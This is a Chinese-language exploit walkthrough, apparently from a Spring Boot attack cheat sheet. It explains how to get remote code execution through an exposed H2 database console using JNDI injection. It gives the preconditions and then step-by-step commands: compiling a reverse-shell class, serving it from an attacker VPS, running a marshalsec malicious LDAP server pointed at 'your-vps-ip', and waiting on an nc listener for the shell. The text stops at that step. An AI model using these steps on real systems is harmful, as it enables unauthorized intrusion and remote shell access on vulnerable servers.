 ### 0x07：h2 database console JNDI RCE

#### 利用条件：

*   存在 `com.h2database.h2` 依赖（版本要求暂未知）
    
*   spring 配置中启用 h2 console `spring.h2.console.enabled=true`
    
*   目标可以请求攻击者的服务器（请求可出外网）
    
*   JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1（LDAP 方式）
    

#### 利用方法：

##### 步骤一：访问路由获得 jsessionid

直接访问目标开启 h2 console 的默认路由 `/h2-console`，目标会跳转到页面 `/h2-console/login.jsp?jsessionid=xxxxxx`，记录下实际的 `jsessionid=xxxxxx` 值。

##### 步骤二：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 Java 示例代码 `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```
javac -source 1.5 -target 1.5 JNDIObject.java

```

然后将生成的 `JNDIObject.class` 文件拷贝到 步骤二 中的网站根目录。

##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80

```

将步骤二中编译好的 class 文件拷贝到 HTTP 服务器根目录。

##### 步骤四：架设恶意 ldap 服务

下载 marshalsec ，使用下面命令架设对应的 ldap 服务：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389

```

##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell
